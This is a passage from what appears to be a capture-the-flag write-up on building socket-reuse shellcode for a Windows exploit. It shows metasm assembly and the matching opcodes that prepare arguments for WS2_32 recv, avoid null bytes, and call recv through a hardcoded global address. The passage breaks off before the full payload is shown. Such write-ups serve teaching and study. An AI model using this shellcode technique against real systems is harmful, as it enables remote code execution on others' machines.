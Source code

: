 ```

metasm > sub esp, 0x64
"\x83\xec\x64"

```

#### Socket Reuse - Call recv

Now it’s time to put arguments on the stack. First, push a null for the flags:

```

xor ebx, ebx
push ebx

```

Next comes the read size. I want to avoid null bytes, so I’ll push something that’s not round (0x404 instead of 0x400):

```

add bx, 404
push ebx

```

It’s important to add to bx and not ebx, or else the command will expand 0x404 with some leading null bytes.

Now I need space to output. The article suggests either writing to some address on the stack and then jumping to it, or just calculating the address just after the `recv` call and writing it in place. I can just put ESP minux 0x64 (the amount I spaced in above) in here now, and run it and check how far from the actual goal it is, and then adjust if necessary.

I need to call `WS2_32.DLL::recv`. That address will move around in memory depending on where the DLL is loaded in memory. The legit program stores the address in a global, loads that into eax, and calls it:

![image-20220204141100479](https://0xdfimages.gitlab.io/img/image-20220204141100479.png)

The global is at 0x719082ac:

![image-20220204141314037](https://0xdfimages.gitlab.io/img/image-20220204141314037.png)

```

metasm > mov eax, [0x719082ac]
"\xa1\xac\x82\x90\x71"
metasm > call eax
"\xff\xd0"

```

The payload is now:
